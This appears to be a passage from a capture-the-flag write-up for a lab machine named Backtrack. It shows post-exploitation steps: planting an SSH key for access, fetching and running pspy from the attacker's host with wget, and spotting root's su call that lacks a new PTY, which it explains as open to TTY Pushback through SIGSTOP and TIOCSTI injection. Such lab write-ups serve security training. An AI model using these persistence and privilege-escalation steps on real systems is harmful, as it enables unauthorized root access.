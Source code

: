 ```console
uid=1003(orville) gid=1003(orville) groups=1003(orville)
orville@Backtrack:/var/www/html$ wc -c /home/orville/flag2.txt
38 /home/orville/flag2.txt
```

## Shell as root

### TTY Pushback

First, we can drop an `SSH` key to obtain a better shell.

```console
$ ssh-keygen -f id_ed25519 -t ed25519
$ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID7XfXJ7C8oHVhgXfgJi/jhMiLhZbXOi5ZMdZGmzg4sY kali@kali
```

```console
orville@Backtrack:/home/orville$ mkdir .ssh
orville@Backtrack:/home/orville$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID7XfXJ7C8oHVhgXfgJi/jhMiLhZbXOi5ZMdZGmzg4sY kali@kali' > .ssh/authorized_keys
```

```console
$ ssh -i id_ed25519 orville@10.10.61.142
```

Now, we use `pspy` to check the running processes.

```console
orville@Backtrack:~$ wget 10.11.72.22/pspy64
...
orville@Backtrack:~$ chmod +x pspy64
orville@Backtrack:~$ ./pspy64
```

We notice something interesting: the `root` user **SSHs** into the machine, switches to the `orville` user, and runs the `zip` command below.

```console
2024/10/12 01:57:04 CMD: UID=0     PID=23320  | sshd: root@pts/0
2024/10/12 01:57:04 CMD: UID=0     PID=23321  | -bash
...
2024/10/12 01:57:04 CMD: UID=1003  PID=23332  | su - orville
2024/10/12 01:57:05 CMD: UID=1003  PID=23333  | -bash
...
2024/10/12 01:57:07 CMD: UID=1003  PID=23342  | zip -q -r /home/orville/web_snapshot.zip /var/www/html/css /var/www/html/dashboard.php /var/www/html/includes /var/www/html/index.php /var/www/html/login.php /var/www/html/logout.php /var/www/html/navbar.php /var/www/html/register.php /var/www/html/rev.png.php /var/www/html/uploads
```

The issue here is that while running the `su` command, the `root` user does not use the `-P` flag, meaning no new `PTY` is allocated.

This situation is vulnerable to **TTY Pushback**. Essentially, we can stop the shell running as the `orville` user by sending a `SIGSTOP` signal to it, allowing focus to shift to the `root` shell. After that, we can use the `TIOCSTI` operation with the `ioctl` to send inputs to the `root` shell. You can read more about the vulnerability [here](https://www.errno.fr/TTYPushback.html).
